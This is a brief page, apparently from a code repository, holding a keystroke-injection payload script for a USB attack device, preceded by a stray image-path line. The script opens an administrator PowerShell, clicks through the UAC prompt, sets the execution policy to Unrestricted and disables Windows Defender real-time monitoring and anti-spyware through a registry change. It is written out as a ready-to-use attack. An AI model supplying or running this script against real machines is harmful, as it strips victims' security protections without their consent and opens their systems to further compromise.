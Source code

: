 ## Opening a powershell as admin.
*Note: only works if no password is required for admin*

    DELAY 2000
    GUI r
    DELAY 3000
    STRING powershell Start-Process powershell -Verb runAs
    ENTER
    DELAY 3000
    ALT y
    DELAY 3000
    LEFTARROW
    DELETE
    ENTER
    DELAY 3000
    STRING Set-ExecutionPolicy Unrestricted -Force
    ENTER
    DELAY 3000
    STRING Set-MpPreference -DisableRealtimeMonitoring $true -Force
    ENTER
    DELAY 3000
    STRING New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
